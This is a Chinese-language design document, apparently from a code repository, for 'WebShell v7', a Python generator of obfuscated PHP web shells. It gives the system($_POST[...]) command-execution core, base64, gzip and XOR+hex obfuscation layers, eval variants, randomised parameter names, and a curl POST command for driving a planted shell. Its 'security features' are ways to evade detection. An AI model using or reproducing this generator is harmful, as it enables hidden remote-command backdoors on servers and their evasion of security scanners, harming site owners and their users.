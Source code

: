 # WebShell v7 代码生成逻辑说明

## 1. 基本架构

WebShell v7是v6的升级版本，采用了更复杂的加密和混淆技术，主要包含以下核心组件：

### 1.1 随机字符串生成
```python
def random_string(length=8):
    return ''.join(random.choices(string.ascii_letters, k=length))
```
- 用于生成随机变量名和参数名
- 默认长度为8个字符
- 仅使用字母字符

### 1.2 XOR加密实现
```python
def xor_encrypt(s, key):
    return ''.join([chr(ord(c) ^ ord(key[i % len(key)])) for i, c in enumerate(s)])
```
- 使用XOR算法对payload进行加密
- 密钥循环使用
- 字符级别的加密

## 2. Payload生成流程

### 2.1 基础payload结构
```php
<?php ${VAR} = {CODE}; {EVAL}(${VAR}); ?>
```

### 2.2 命令执行代码
```php
if(isset($_POST["{param_name}"])){
    system($_POST["{param_name}"]);
}
```
- 使用POST方法接收参数
- 参数名随机生成
- 使用system()函数执行命令

### 2.3 加密方式
支持四种不同的加密方式：

1. Base64编码
```php
${var_name} = base64_decode("...");
```

2. 双重Base64编码
```php
${var_name} = base64_decode(base64_decode("..."));
```

3. Gzip压缩+Base64编码
```php
${var_name} = gzinflate(base64_decode("..."));
```

4. XOR加密+Hex编码
```php
${var_name} = "";
$_ = "加密数据";
$k = "密钥";
for($i=0;$i<strlen($_);$i+=2){
    ${var_name} .= chr(hexdec(substr($_,$i,2))^ord($k[$i%strlen($k)]));
}
```

## 3. eval函数变体

### 3.1 eval函数的不同形式
```python
eval_variants = [
    'eval(${VAR})',
    'e'.upper() + 'val(${VAR})',
    '@eval(${VAR})'
]
```
- 普通eval
- 动态构造eval
- 错误抑制的eval

## 4. 使用方法

### 4.1 生成样本
```python
python3 gen_php_webshellv7.py  # 生成100个样本
```

### 4.2 连接方式
```bash
# 使用生成时显示的参数名
curl -X POST http://target/shell_XX.php -d "参数名=命令"
```

## 5. 安全特性

1. 多层加密
   - 单层/双层Base64
   - Gzip+Base64
   - XOR+Hex

2. 代码混淆
   - 随机变量名
   - 随机参数名
   - eval函数变体

3. 通信安全
   - 仅支持POST方法
   - 参数名随机化
   - 每个样本使用不同的参数名

## 6. v7相对v6的改进

1. 加密方式
   - 新增双重Base64编码
   - 改进的XOR加密实现

2. 代码结构
   - 更简洁的payload结构
   - 更灵活的eval变体
   - 统一的POST方法

3. 安全性
   - 去除了明显的eval拆分
   - 更随机的参数名生成
   - 更好的错误处理 